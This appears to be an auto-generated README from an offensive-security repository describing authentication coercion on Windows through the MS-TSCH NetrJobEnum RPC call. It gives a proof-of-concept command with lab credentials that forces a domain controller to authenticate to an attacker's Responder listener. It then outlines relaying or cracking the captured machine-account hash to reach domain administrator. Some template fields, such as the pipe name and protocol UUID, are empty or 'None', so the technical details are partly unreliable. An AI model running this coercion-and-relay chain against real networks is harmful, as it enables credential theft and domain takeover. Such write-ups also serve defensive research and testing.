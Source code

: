 # MS-TSCH - Remote call to NetrJobEnum (opnum 2)

## Summary

 - **Protocol**: [[MS-TSCH]: Task Scheduler Service Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931)

 - **Protocol UUID**: None

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`NetrJobEnum`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/fbd5a268-b8c6-4953-8df3-8931ca0f365d)

 - **Function operation number**: `2`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-TSCH`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931) protocol (with uuid `None` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-TSCH`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-TSCH]: Task Scheduler Service Remoting Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931) and allows to call RPC functions of this protocol. We will then call the remote [`NetrJobEnum`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/fbd5a268-b8c6-4953-8df3-8931ca0f365d) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrJobEnum('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS NetrJobEnum(
   [in, string, unique] ATSVC_HANDLE ServerName,
   [in, out] LPAT_ENUM_CONTAINER pEnumContainer,
   [in] DWORD PreferedMaximumLength,
   [out] LPDWORD pTotalEntries,
   [in, out, unique] LPDWORD pResumeHandle
 );
```

## References

 - Documentation of protocol [MS-TSCH]: Task Scheduler Service Remoting Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/d1058a28-7e02-4948-8b8d-4a347fa64931

 - Documentation of function `NetrJobEnum`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/fbd5a268-b8c6-4953-8df3-8931ca0f365d
